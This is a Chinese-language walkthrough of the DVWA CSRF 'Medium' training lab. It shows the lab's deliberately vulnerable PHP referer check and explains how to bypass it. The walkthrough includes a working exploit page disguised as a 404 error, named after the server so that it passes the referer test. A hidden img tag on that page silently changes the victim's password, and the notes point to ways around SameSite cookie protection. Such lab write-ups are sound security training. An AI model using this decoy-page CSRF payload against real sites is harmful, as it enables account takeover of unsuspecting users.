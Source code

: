 # CSRF - Medium

## View Source

```PHP
 <?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
            $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
            $pass_new = md5( $pass_new );

            // Update the database
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

            // Feedback for the user
            echo "<pre>Password Changed.</pre>";
        }
        else {
            // Issue with passwords matching
            echo "<pre>Passwords did not match.</pre>";
        }
    }
    else {
        // Didn't come from a trusted source
        echo "<pre>That request didn't look correct.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

- [`isset()`](https://www.php.net/manual/zh/function.isset.php)
    - 檢查變數是否已設置
    - I.e., *Change* 按鈕按下去
- [`stripos($a, $b)`](https://www.php.net/manual/zh/function.stripos.php)
    - 回傳 *b* 在 *a* 中的位置 (不分大小寫)
- [*HTTP Referer*](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer)
    - *The Referer HTTP request header contains the absolute or partial address from which a resource has been requested.*
    - I.e., *request* 從哪裡來
- *$_SERVER[ 'SERVER_NAME' ]*
    - 可以至 *Setup / Reset DB* 頁面看到 `Web Server SERVER_NAME: 127.0.0.1`

## Code Review

- *HTTP_REFERER* 含有 *SERVER_NAME* 且輸入的兩個密碼相同就做 *md5* 更新密碼
- 使用者正常操作時 `Referer: http://127.0.0.1/vulnerabilities/csrf/`

## Answer

### Burp Suite

- 使用 *Proxy* 功能攔截 *request* 封包再加上 *Referer*

### Exploit

1. 構造如 *Low level* 的惡意連結等
2. 設計一個顯示 *404* 的釣魚網頁誘騙使用者瀏覽
3. 檔名取 *SERVER_NAME*
    - `127.0.0.1.html`
4. `python3 -m http.server` 快速架設
    - *The Referer can not be sent by the browsers if the resource is the local file or data.*
5. 瀏覽 `http://0.0.0.0:8000/127.0.0.1.html`

### Example

- 詳見 *Sample code* 中的 *127.0.0.1.html* 和 *css* 目錄
```HTML
<!DOCTYPE html>

<!-- https://codepen.io/akashrajendra/pen/JKKRvQ -->

<html lang="en">
    <head>
        <meta name="referrer" content="unsafe-url">
        <title>CSRF Demo</title>
        <link type="text/css" rel="stylesheet" href="css/style.css" />
    </head>
    <body>
        <div id="main">
            <div class="fof">
                <h1>Error 404</h1>
            </div>
        </div>
        <!-- <a href="https://bit.ly/3iF8Sxi">View my Pictures!</a> -->
        <img src="http://127.0.0.1/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#" width="0" height="0" border="0" style="display:none">
    </body>
</html>
```

### Note

- 建議過程中可以使用 *Burp Suite* 的 *Proxy* 觀察封包情況 

#### 可能遇到的問題

- 新版瀏覽器可能會遇到 *302* 被轉到 *login.php* 導致失敗
- 因為 *Cookie* 的 *SameSite* 預設會是 *Lax*
    - [SameSite cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite)
    - [2020 年 2 月開始實施的 Chrome 違規處置](https://developers.google.com/search/blog/2020/01/get-ready-for-new-samesitenone-secure?hl=zh-tw#chrome-enforcement-starting-in-february-2020)
- 所以在跨域情況下，只有少數的 *HTML tag* 可以夾帶 *Cookie*
- 解決方法
    1. 使用 *Lax* 允許的方式，例如 `<a>`
    2. 繞過它 (？) 沒嘗試過
        - E.g., [Bypassing SameSite cookie restrictions](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions#lax)
- 如果只是要嘗試效果，可直接存取 `http://127.0.0.1:8000/127.0.0.1.html` 比較方便
    - 因為 `python -m http.server` 預設是開在 `0.0.0.0`
    - [Difference between 127.0.0.1 and 0.0.0.0](https://www.geeksforgeeks.org/difference-between-127-0-0-1-and-0-0-0-0/)